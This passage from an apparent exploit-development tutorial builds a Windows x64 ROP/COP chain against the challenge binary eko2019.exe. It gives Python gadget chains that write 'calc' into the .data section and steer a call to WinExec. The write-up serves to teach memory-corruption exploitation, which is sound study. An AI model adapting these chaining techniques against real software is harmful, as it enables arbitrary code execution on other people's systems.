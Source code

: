 The second argument, stored in RDX, is `uCmdShow`. These are the "display options". The easiest option here, is to use `SW_SHOWNORMAL` - which just executes and displays the application normally. This means we will just need to place the value 0x1 into RDX, which is representative of `SH_SHOWNORMAL`.

Note - you can find all of these ROP gadgets from running rp++.

To start our ROP chain, we will just implement a "ROP NOP", which will just return to the stack. This gadget is located at eko2019.exe+0x10a1

```python
exploit_4 += struct.pack('<Q', base_address+0x10a1)     # ret: eko2019.exe
```

The next thing we would like to do, is get a pointer to the string "calc" into RCX. In order to do this, we are going to need to have write permissions to a memory address. Then, using a ROP gadget, we can overwrite what this address points to with our own value of "calc", which is null terminated. Looking in IDA, we see only one of the sections that make up our executable has write permissions.

<img src="{{ site.url }}{{ site.baseurl }}/images/BFS_55.png" alt="">

This means that we need to pick an address from the `.data` section within eko2019.exe to overwrite. The address we will use is eko2019.exe+0xC288 - as it is the first available "blank" address.

<img src="{{ site.url }}{{ site.baseurl }}/images/BFS_56.png" alt="">

We will place this address into RCX, via the following ROP/COP gadgets:

```python
exploit_4 += struct.pack('<Q', base_address+0x1167)     # pop rax ; ret: eko2019.exe
exploit_4 += struct.pack('<Q', base_address+0xc288)     # First empty address in eko2019.exe .data section
exploit_4 += struct.pack('<Q', base_address+0x6375)     # mov rcx, rax ; call r12: eko2019.exe
```

In this program, there was only one ROP gadget that allowed us to control RCX in the manner we wished - which was `mov rcx, rax ; call r12`. Obviously, this gadget will not return to the stack like a ROP gadget - but it will call a register afterwards. This is what is known as "Call-Oriented Programming", or COP. You may be asking "this address will not return to the stack - how will we keep executing"? There is an explanation for this! 

Essentially, before we use the COP gadget, we can pop a ROP gadget into the register that will be called (e.g. R12 in this case). Then, when the COP gadget is executed and the register is called - it will be actually peforming a call to a ROP gadget we specify - which will be a return back to the stack in this case, via an `add rsp, X` instruction. Here is how this looks in totality.

```python
# The next gadget is a COP gadget that does not return, but calls r12
# Placing an add rsp, 0x10 gadget to act as a "return" to the stack into r12
exploit_4 += struct.pack('<Q', base_address+0x4a8e)     # pop r12 ; ret: eko2019.exe
exploit_4 += struct.pack('<Q', base_address+0x8789)     # add rsp, 0x10 ; ret: eko2019.exe 

# Grabbing a blank address in eko2019.exe to write our calc string to and create a pointer (COP gadget)
# The blank address should come from the .data section, as IDA has shown this the only segment of the executable that is writeable
exploit_4 += struct.pack('<Q', base_address+0x1167)     # pop rax ; ret: eko2019.exe
exploit_4 += struct.pack('<Q', base_address+0xc288)     # First empty address in eko2019.exe .data section
exploit_4 += struct.pack('<Q', base_address+0x6375)     # mov rcx, rax ; call r12: eko2019.exe
exploit_4 += struct.pack('<Q', 0x4141414141414141)      # Padding from add rsp, 0x10
```
